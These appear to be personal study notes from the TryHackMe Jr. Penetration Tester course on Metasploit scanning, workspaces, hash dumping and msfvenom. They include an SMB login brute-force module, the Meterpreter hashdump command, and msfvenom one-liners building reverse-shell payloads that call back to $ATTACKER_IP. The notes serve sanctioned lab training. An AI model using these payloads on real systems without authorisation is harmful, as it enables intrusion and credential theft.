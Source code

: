 # TryHackMe: Jr. Penetration Tester

**author**:: Nathan Acks  
**date**:: 2022-04-14

## Exploitation with Metasploit

### Scanning

Use `search portscan` to display built-in Metasploit port scanners. Note that `msfconsole` needs to be run as root for many scans to work - just like Nmap. That said, in my experience the fancier TCP scans (for example, SYN) don't work over a VPN… So maybe best to stick with Nmap.

Speaking of which, Nmap can also be called internally (like other shell commands).

The `auxiliary/scanner/discovery/udp_sweep` module will probe for common UDP services.

Metasploit has a variety of Samba/CIFS scanners too; use `search scanner/smb` to list them.

NetBIOS = Network Basic Input/Output System

TryHackMe emphasizes the importance of examining the usage of NetBIOS for potential vulnerabilities, though it's a bit light on specifics about what this means in practice.

Use `show advanced` to show additional module options.

The `auxiliary/scanner/http/http_version` module will give you HTTP server version information.

The `auxiliary/scanner/smb/smb_login` module will allow you to bruteforce Samba logins (username and/or password) using a wordlist(s).

* [Using "nmap"](../notes/nmap.md)
* [SAMBA (a.k.a. CIFS) Protocol](../notes/samba.md)
* [TCP SYN Port Scanner - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/portscan/syn)

### The Metasploit Database

Get basic database status using `db_status`.

Create and delete workspaces (engagements) with `workspace`; use `-a` to add and `-d` to delete. Switch between workspaces using `workspace $NAME`.

Use `db_nmap` to run Nmap (all of the regular options work) and dump the results into the Metasploit database.

The `hosts` and `services` commands can then be used to display the, well, hosts and services logged by Metasploit during an engagement. Both commands support an `-S` search parameter, the results of which can then be added to `RHOSTS` using the `-R` parameter.

### Exploitation

Show the payloads available for a particular exploit using `show payloads`. Use `set payload` to set the payload for the exploit; re-run `show options` after this to check if the payload has added any additional options that will need to be set before exploitation.

To dump NTLM hashes from Meterpreter, use the `hashdump` command. Normally only the first four fields are relevant:

* Username
* RID (the last four digits of the Windows SID, with leading zeros dropped)
* The user's LM password hash
* The user's NTLM password hash

Use `sessions` to, well, manage your sessions (most useful when you've backgrounded a payload and/or are working with multiple targets).

* [Dumping Windows Password Hashes Using Metasploit](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf)
* [Windows Password Hashes](../notes/windows-password-hashes.md)

### Msfvenom

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf > rev_shell

# 32-bit Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > rev_shell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f asp > rev_shell.asp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.py
```

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you'll need to use `set payload` to tell Metasploit *what* it's catching!). We can catch both regular reverse shells and Meterpreter sessions this way.

